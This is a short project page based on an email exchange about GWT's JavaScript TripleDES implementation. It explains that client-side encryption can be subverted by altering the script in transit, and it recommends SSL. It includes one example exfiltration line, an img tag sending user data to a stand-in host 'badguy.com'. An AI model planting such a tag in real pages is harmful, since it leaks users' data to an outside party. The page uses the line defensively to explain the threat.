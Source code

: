 This is based on an email exchange I had with Brill Pappin and concerns I raised in a [blog post](http://www.mooreds.com/wordpress/archives/000529).  The upshot is that GWT encryption can, like any javascript encryption, be subverted.  If you want real security on the web, use SSL.


---


This implementation of TripleDES (tdes) is compatible with native java tdes implementations.

That still doesn't prevent the javascript from being modified to capture a paintext copy before encryption however.  The bouncy castle library was originally designed to be deployed on mobile phones were SSL was impossible.

If you send the key and the data down together, it would be easy to compromise.  However usually with tdes the keys are not transmitted but are already known by both sides.  You could send them to the user via some other transmission mechanism.

You can get more and more complex by combining values and rotating keys etc. and/or requiring user input to generate a key (there is a key generator in the library).

However javascript is sent over an http socket and could be intercepted. So unless you have SSL that is a worry.

The easiest way for a GWT TDES implementation to be compromised is to simply modify the javascript code while in transmission to the user, so that the anything the user encrypts is "copied" before encryption--that would not really be hard to do--however because the browser doesn't allow the script to arbitrarily post to a different random host, you have a minor stumbling block for the hacker; they'd have to do something else to get the 'copy' to their server, like add an image call to the DOM (<img src='http://badguy.com/?userinfo=userinfo' />).

If you are running over HTTPS then things are a bit more secure, because the browser will detect a modified javascript file.

So, the only way to have any reasonable confidence is to have the http session run over SSL or to not send the encryption library over the wire where it could be modified (do not send key over the wire in any case).

Keep in mind that as with any encryption, you are depending on the user to have their own box secure enough not to let a hacker in.